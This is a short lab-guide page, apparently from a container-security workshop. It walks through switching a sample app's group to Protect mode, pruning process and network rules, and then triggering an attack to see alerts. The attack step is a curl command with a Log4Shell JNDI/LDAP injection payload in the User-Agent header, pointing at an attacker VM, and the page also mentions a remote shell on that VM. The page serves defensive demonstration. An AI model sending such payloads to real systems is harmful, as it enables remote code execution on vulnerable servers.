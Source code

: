 +++
title = "Protect sample-app"
weight = 21
+++

Go to **Policy > Groups** and choose the `nv.sample-app.default` group.

Switch the mode of this group to **Protect**.

Go to process profile rules and delete all rules but the ones for `pause` and `java`.

Execute any command in the remote shell on the attacker01 vm and see that its blocked.

You will have an alert under **Notifications > Security Events**.

Go to **Policy > Network Rules** and delete the rule

* From `nv.sample-app.default` to `external`

Execute the request to trigger the attack:

Run the following commands on the victim01 VM.

```ctr
curl http://sample-app.default.${vminfo:victim01:public_ip}.sslip.io/login -d "uname=test&password=invalid" -H 'User-Agent: ${jndi:ldap://${vminfo:attacker01:public_ip}:1389/a}'
```

You will have an alert under **Notifications > Security Events**.

